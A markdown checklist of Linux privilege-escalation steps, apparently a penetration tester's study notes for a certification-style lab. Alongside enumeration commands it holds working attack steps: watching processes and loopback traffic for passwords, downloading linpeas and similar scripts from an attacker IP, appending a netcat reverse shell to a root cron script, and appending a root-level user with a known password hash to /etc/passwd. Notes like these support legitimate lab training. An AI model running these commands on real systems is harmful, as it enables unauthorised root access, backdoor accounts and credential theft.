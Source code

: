 
# Windows Linux initial checks


- [ ] Check directory that a shell was spawned into
- [ ] List sudo commands that can be executed and check **ALL** in [GTFOBins](https://gtfobins.github.io/)
```
sudo -l
```
- [ ] Search capabilities and check all in [GTFOBins](https://gtfobins.github.io/)
```
/usr/sbin/getcap -r / 2>/dev/null
```
- [ ] Get Users[[_ad]]
```
cat /etc/passwd
```
- [ ] Get Information for potential kernel exploits
```
cat /etc/issue;
cat /etc/os-realease;
cat /etc/*-release;
uname -r;
arch
```
 - [ ] List processes
```c
ps aux
```
- [ ] List network interfaces and routing tables
```c
ip a
route
netstat # or ss -anp
cat /etc/iptables/rules.v4

# with root privs
sudo iptables -L
/etc/iptables # if iptables-persistent package
```
- [ ] Enum linux based job scheduler
```c
ls -lah /etc/cron*
```
- [ ] Enum carefully for insecure file perms
```c
/etc/crontab
```
- [ ] List crontab
```c
crontab -l
```
- [ ] Find all writeable paths
```c
find / -writable -type d 2>/dev/null
```
- [ ] Find all executable paths
```c
find / -perm -o x -type d 2>/dev/null
```
- [ ] Find all writeable and executable paths
```c
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```
- [ ] List all drives mounted at boot time
```c
cat /etc/fstab
```
- [ ] Get Users
```c
cat /etc/passwd
```
- [ ] Check locations for user installed software
```
# Common locations for user installed software
ls -lah /usr/local/;
ls -lah /usr/local/src;
ls -lah /usr/local/bin;
ls -lah /opt/;
ls -lah /home;
ls -lah /var/;
ls -lah /usr/src/;

# Debian
dpkg -l;

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE );

# OpenBSD, FreeBSD
pkg_info;
```
- [ ] Check services from the inside and compare with nmap output
```
netstat -anlp;
netstat -ano
```
- [ ] Check cron jobs
```
grep "CRON" /var/log/syslog

# Aug 25 04:57:01 debian-privesc CRON[918]:  (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh) - this cron job runs a script as root

cat /home/joe/.scripts/user_backups.sh # what does it do
ls -lah /home/joe/.scripts/user_backups.sh # what are the perms
```
- [ ] Monitor processes that contain the word "pass"
```
watch -n 1 "ps -aux | grep pass"
```
- [ ] Monitor processes that contain the word "pass"
```
sudo tcpdump -i lo -A | grep "pass"
```

### Automated enumeration

- [ ] Unix-privesc-check
```
wget http://192.168.45.xx/unix-privesc-check
./unix-privesc-check standard > unix-privesc-check.txt
```
- [ ] LinEnum
```
wget http://192.168.45.xx/LinEnum.sh
./LinEnum.sh -s -k keyword -r linenum.txt -e /tmp/ -t
./LinEnum.sh -t -k password
```
- [ ] Linpeas (might need to fix a line of code)
```
wget http://192.168.45.xx/linpeas.sh
./Linpeas.sh > linpeas.txt
```
- [ ] linprivchecker.py (idk about auto exploit so only use at the end)

### Get proof.txt and local.txt
- [ ] Search from root dir
```
sudo find / -name "proof.txt" 2>/dev/null;
sudo find / -name "local.txt" 2>/dev/null
```

# Exploits

## Abusing Cron Jobs
- [ ] Double check permissions
```
ls -lah /path/to/script.sh
```
- [ ] Write reverse shell
```
cd .scripts
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.211 1234 >/tmp/f" >> /path/to/script.sh
nc -lnvp 1234
```

## GTFOBins
- [ ] If doesn't work, check why
```
cat /var/log/syslog | grep tcpdump
```

## Searching for kernel exploits

- [ ] Searchsploit query
```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
## Write to /etc/passwd

- [ ] Generate password hash
```
openssl passwd w00t
```
- [ ] Add new hash to `/etc/passwd` that executes `/bin/bash` as root
```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
- [ ] Login as root2 with password `w00t`
```
su root2
```

### World writeable directories
```
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
```